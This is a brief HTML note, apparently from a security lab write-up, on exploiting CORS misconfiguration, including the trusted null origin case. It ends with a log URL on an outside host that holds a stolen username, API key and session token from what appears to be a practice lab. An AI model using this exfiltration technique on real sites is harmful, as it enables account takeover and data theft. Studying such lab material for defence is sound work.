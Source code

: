 <h1>CORS Misconfiguration</h1>
<h3>Impact:</h3>
<p>Api token, email, password, and other types of sensitive data exposure</p>
<hr>
<code>Origin: https://example.com</code>
o
<code>Origin: http://example.com</code>
<p>Response:</p>
<code>Access-Control-Allow-Origin: https://example.com</code>



<p>CORS vulnerability with trusted null origin</p>
<p>-Go to console.log:</p>
<p>https://angeljuanma.github.io/log?key={ "username": "wiener", "email": "", "apikey": "ILmCsS4WvD12NbFLxkHaUt7PnL3cFDzU", "sessions": [ "mWXTjX7lmBUZlRJ9TPWqfN7FxBggUFKg" ] }</p>
